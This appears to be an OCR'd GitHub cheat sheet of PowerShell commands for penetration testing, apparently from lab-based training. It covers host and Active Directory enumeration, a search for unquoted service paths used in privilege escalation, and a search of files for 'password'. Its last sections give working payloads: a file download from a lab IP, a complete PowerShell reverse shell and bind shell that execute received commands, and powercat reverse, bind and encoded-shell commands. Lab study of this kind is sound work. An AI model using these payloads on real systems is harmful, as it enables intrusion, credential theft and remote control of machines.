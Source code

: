 ### Get installed software
Get-WmiObject -Class Win32_Product

### Get Antivirus Product Status
Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct

### In table format, display processes and include the CommandLine, ProcessName, and SessionID. Filter to show SessionID of 2 and ProcessName of "svchost.exe" only. Sort the results alphabetically by CommandLine.
gps | Select-Object -Property ProcessName,SessionID | Sort-Object -Property ProcessName -Descending | Where-Object SessionID -EQ 2 | Where-Object ProcessName -EQ svchost.exe | Format-Table

### Services with unquoted executable paths that start automatically can lead to escalating privileges. How many services fit that description on this machine?
Get-WmiObject -class Win32_Service -Property StartMode,PathName | Where {$_.StartMode -EQ "Auto" -and $_.PathName -notlike '"*'} | select StartMode,PathName

### Get current logged in user
query user /server:$server
Get-WmiObject -Class win32_computersystem
(Get-CimInstance -ClassName Win32_ComputerSystem).Username
(Get-WMIObject -ClassName Win32_ComputerSystem).Username


### Get file under path using hash value
Get-FileHash -Path C:\Windows\System32\* -Algorithm MD5 | findstr /i "6CECC33A62E935F5E8665B9597479A36"

### Find string in txt files under path by "password" string
Select-String -Path C:\Windows\System32\*.txt -Pattern 'password'

### Powershell to get shell from 192.168.79.79 to 192.168.79.80(username:offensive)
192.168.79.79:Enable-PSRemoting,Set-Item wsman:\localhost\client\trustedhosts 192.168.79.80,Enter-PSSession -ComputerName 192.168.79.80 -Credential offensive

### Domain
###### Domain Users and Groups
Get-ADUser Jim  
Get-ADUSer -filter *  
Get-ADUser Morgan -Properties *(get full info of aduser)  
Get-ADComputer APPSRV01  
Get-ADGroup -filter 'GroupScope -eq Global/Domain Local/Universal'  
Get-ADGroup -filter * -properties * |select SAMAccountName, Description|Export-Csv adGroupList.csv  

###### Enumerate Domain group member
Get-ADGroupMember ThirdGroup -recursive 

### Get windows firewall rules
Get-NetFirewallRule

### Retrieve domain user full info
Get-ADUser -Identity Susan -Properties "*"

### Retrieve domain computer full info
Get-AdComputer -Identity APPSRV01 -Properties *

### display all loaded functions
dir function:

### display one specific module location
dir (Get-Module -ListAvailable FlagModule).ModuleBase

### download file
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"

### reverse shell
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
sudo nc -lnvp 443
```
### bind shell
```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
nc -nv 10.11.0.22 443
```
### load powercat, bindshell, reverse shell, encrypted payloads
```
Import-Module .\powercat.ps1
powercat -l -p 443 -e cmd.exe
powercat -c 10.11.0.4 -p 443 -e cmd.exe
powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
powershell.exe -E en_payload
```
